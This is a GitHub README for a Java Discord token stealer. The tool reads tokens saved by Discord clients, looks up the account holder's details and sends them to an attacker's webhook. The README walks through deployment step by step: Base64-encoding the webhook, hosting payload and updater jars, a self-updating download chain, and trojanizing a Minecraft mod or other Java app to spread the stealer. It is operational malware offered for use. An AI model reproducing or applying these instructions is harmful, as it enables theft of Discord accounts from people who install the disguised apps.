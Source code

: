 Simple Discord token logging utility written in Java.
# Features
 - Log tokens saved by Discord clients in LevelDB files
 - Gather user info through the token and send it to a webhook in an embed of your choice
 - Auto-update functionality
# Requirements
 - Java 11+
 - Jackson
 - JNA-Platform
# Usage
1. *(Optional)* Change the path the Updater will be downloaded to in **ClientTokenGrabber.java**
    ```java
    public static final String UPDATER_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    ```
2. Encode your webhook in Base64 for minimal security and paste it in **ClientTokenGrabber.java**
    ```java
    public static final String WEBHOOK_URL = "YOUR BASE64 ENCODED WEBHOOK URL HERE";
    ```
3. *(Optional)* Change the path the Application will be downloaded to in **Updater.java**
    ```java
    private static final String APP_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\Example.jar";
    ```
4. Host a file containing the version and download link to the main Application jar information just like in [/examples/Version Info](https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Version%20Info) (link should not be filled out yet)
    ```json
    {
        "version": 1,
        "link": ""
    }
    ```
5. Change the link in **UpdateHelper.java** to that
    ```java
    private static final String INFO_URL = "https://raw.githubusercontent.com/0x5d0/Discord-Client-Token-Logger/master/examples/Version%20Info";
    ```
6. Compile the **Updater**
7. Host the Updater jar just like in [/examples/Update.jar](https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Update.jar)
8. Change the link in **ClientTokenGrabber.java** to that
    ```java
    public static final String UPDATER_URL = "https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Update.jar";
    ```
9. Change the link in **Downloader.java** to that as well
    ```java
    private static final String DOWNLOAD_URL = "https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Update.jar";
    ```
10. *(Optional)* Change the path the Updater will be downloaded to in **Downloader.java** (should be the same as step one)
    ```java
    private static final String SAVE_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
    ```
11. Trojanize your preferred app (Minecraft mod/any Java app) with the Downloader source and compile it (uses no external libraries)
12. Compile the **ClientTokenGrabber.java**
13. Host the compiled ClientTokenGrabber jar just like in [/examples/Application.jar](https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Application.jar)
14. Go back to step 4 and change the "link" field to where the ClientTokenGraber jar is hosted
    ```json
    {
        "version": 1,
        "link": "https://raw.githubusercontent.com/0x5d0/Discord-Client-Token-Logger/master/examples/Update.jar"
    }
    ```
15. Run the Downloader jar or the trojanized app and your Discord token and related user information will be sent to your webhook
## Auto-Update
- ### Application
    To distribute updates to all instances of your application, you must first locate and update the version number in the **UpdateHelper** class to a higher value than the current one.This version number will help identify whether an update is available. You can then make the necessary changes to your main application and build it. Finally, host the new version and update the version information file to reflect these changes. This file serves as a reference for your application to determine whether an update is needed.
    
    *Be cautious when updating the version number. If the version number specified in the UpdateHelper class is smaller than the one in the version information file, the Application and Updater will enter a loop of downloading and deleting each other continuously. Make sure to keep the version numbers consistent to avoid this issue.*
- ### Updater
    To distribute new versions of the updater itself, simply build it with the necessary changes and replace the old file with it. The main application will download it the next time an update is needed.
    
    *If you cannot get the same URL for the updater as before, you will have to push a dummy update of the main application with a higher version number and the link to the new updater jar. In general, if you do not own a server, it would be good practice to host the files on GitHub and update them through that to retain the same URLs.*